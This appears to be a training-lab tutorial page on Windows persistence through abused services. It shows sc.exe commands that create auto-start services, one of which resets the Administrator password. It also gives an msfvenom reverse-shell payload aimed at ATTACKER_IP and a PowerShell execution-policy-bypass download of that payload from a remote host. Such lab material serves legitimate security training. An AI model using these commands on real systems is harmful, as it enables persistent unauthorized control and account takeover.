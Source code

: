 # Abusing Services
---

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

## Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:


```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

This should create a connection back to your attacker's machine.

```
powershell -ExecutionPolicy Bypass -Command `
  "Invoke-WebRequest -Uri http://IP:8000/rev-svc.exe `
                     -OutFile C:\Windows\Temp\rev-svc.exe"

```
